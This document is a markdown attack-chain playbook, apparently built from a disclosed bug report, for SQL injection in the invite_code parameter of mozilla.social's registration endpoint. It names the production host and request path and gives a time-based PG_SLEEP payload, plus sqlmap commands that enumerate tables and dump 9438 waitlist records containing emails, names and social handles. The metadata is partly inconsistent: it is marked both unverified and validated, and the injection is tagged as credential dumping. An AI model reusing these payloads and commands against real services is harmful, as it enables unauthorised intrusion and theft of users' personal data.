

---
tags:
  - sqli
  - blind-sqli
  - postgresql
  - enumeration
  - data-exfiltration
  - mozilla
type: attack_chain
tools:
  - '[[tools/sqlmap]]'
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
  - GCP
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Manual-SQL-Injection-Testing]]'
  - '[[procedures/Time-Based-Blind-SQLi-Confirmation]]'
  - '[[procedures/Automated-Database-Enumeration-with-sqlmap]]'
  - '[[procedures/Data-Exfiltration-from-Waitlist-Table]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Credential Dumping]]'
updated_at: '2025-12-14T03:15:05.220Z'
description: >-
  A multi-stage attack exploiting a SQL Injection vulnerability in the
  invite_code parameter during user registration on Mozilla's social platform,
  enabling blind SQLi confirmation, database schema enumeration, and sensitive
  data extraction from PostgreSQL tables.
skill_level: intermediate
impact_level: high
id: 03df94f0-d6b3-46ec-afac-89ed72e6a0e8
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Credential Dumping]]'
---
# SQL Injection via Invite Code Parameter in Mozilla Social Registration Leading to Database Enumeration and Data Exfiltration

Multi-stage attack chain demonstrating exploitation of a SQL Injection vulnerability in the invite_code parameter of Mozilla's social platform registration process, allowing unauthenticated attackers to confirm the vulnerability, enumerate the PostgreSQL database schema, and exfiltrate sensitive user data such as emails, names, and social handles from the waitlist table.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/sqlmap]]
- Burp Suite or similar proxy for request interception (optional for manual steps)

### Target Environment

- Web application on GCP (prod.oidc-proxy.prod.webservices.mozgcp.net)
- PostgreSQL database backend
- No authentication required for registration endpoint

### Initial Access Requirements

- Public internet access to mozilla.social
- Ability to intercept and modify HTTP POST requests
- No prior credentials needed

## Detailed Attack Procedures

### Step 1: Initial Access
procedure: [[procedures/Manual-SQL-Injection-Testing]]

**Objective**: Attempt user registration to identify the invite_code parameter in the POST request and test for basic SQL injection indicators.

**Instructions**: Navigate to mozilla.social and start the registration process, which requires an invite code and redirects to the OIDC proxy endpoint. Intercept the POST request to /interaction/KTTbkN8LaJgYIb7fIwPYX/signup using a proxy tool. Modify the invite_code parameter to include a single quote (e.g., xxx') and observe the response.

```bash
# No specific command; use browser or proxy to send:
POST /interaction/KTTbkN8LaJgYIb7fIwPYX/signup HTTP/1.1
Host: prod.oidc-proxy.prod.webservices.mozgcp.net
Content-Type: application/x-www-form-urlencoded

invite_code=xxx'
```

**Expected Output**: 500 Internal Server Error on single quote injection, indicating potential SQL error.

**Success Indicators**:
- 500 error on ' injection
- Normal 200 response on escaped input like xxx''

### Step 2: Execution
procedure: [[procedures/Time-Based-Blind-SQLi-Confirmation]]

**Objective**: Confirm the SQL Injection vulnerability using time-based blind payloads to observe response delays without direct output.

**Instructions**: Modify the intercepted POST request to inject a time-based payload using PG_SLEEP function specific to PostgreSQL. Start with a 5-second delay and increase to verify consistency.

```bash
# Example payload in invite_code:
POST /interaction/KTTbkN8LaJgYIb7fIwPYX/signup HTTP/1.1
Host: prod.oidc-proxy.prod.webservices.mozgcp.net
Content-Type: application/x-www-form-urlencoded

invite_code=xxx');(SELECT 4564 FROM PG_SLEEP(5))--
```

Then test longer delays:

```bash
# For 10s delay:
invite_code=xxx');(SELECT 4564 FROM PG_SLEEP(10))--

# For 20s delay:
invite_code=xxx');(SELECT 4564 FROM PG_SLEEP(20))--
```

**Expected Output**: Response delay matching the sleep duration (e.g., 5s, 10s, 20s).

**Success Indicators**:
- Consistent delays confirming blind SQLi
- No errors but observable timing differences

### Step 3: Discovery
procedure: [[procedures/Automated-Database-Enumeration-with-sqlmap]]

**Objective**: Use automated tooling to enumerate the database schema, tables, and columns without manual payload crafting.

**Instructions**: Save the vulnerable POST request to a file (e.g., sqli-mozilla.req). Run sqlmap to target the invite_code parameter, specifying PostgreSQL DBMS.

Execute [[commands/sqlmap-enumerate-postgresql-tables]]:

```bash
sqlmap -r sqli-mozilla.req --level=3 -p invite_code --dbms=postgresql --tables --force-ssl
```

**Expected Output**: List of tables including allowlist, disallowed_handles, invitation_tokens, knex_migrations, waitlist.

**Success Indicators**:
- Successful table enumeration
- Identification of sensitive tables like waitlist and invitation_tokens

### Step 4: Objective
procedure: [[procedures/Data-Exfiltration-from-Waitlist-Table]]

**Objective**: Dump sensitive data from identified tables, such as user emails and handles from the waitlist.

**Instructions**: Extend sqlmap usage to dump specific tables and columns. Target the waitlist table for exfiltration.

```bash
sqlmap -r sqli-mozilla.req --level=3 -p invite_code --dbms=postgresql -D public -T waitlist --dump --force-ssl
```

**Expected Output**: Dump of 9438 entries with columns: email, first_name, id, last_name, mastodon_handle, twitter_handle.

**Success Indicators**:
- Successful data dump
- Access to confidential user information without authentication

## Attack Chain Summary

### Key Achievements

1. Confirmed blind SQL Injection in unauthenticated registration endpoint
2. Enumerated PostgreSQL schema revealing sensitive tables
3. Exfiltrated 9438 user records including emails and social handles
4. Demonstrated potential for further exploitation of invitation tokens

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Credential Dumping]] OS Credential Dumping (adapted for DB enumeration)

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Collection]] Collection

---

*Last updated: 2023-10-01T00:00:00Z*
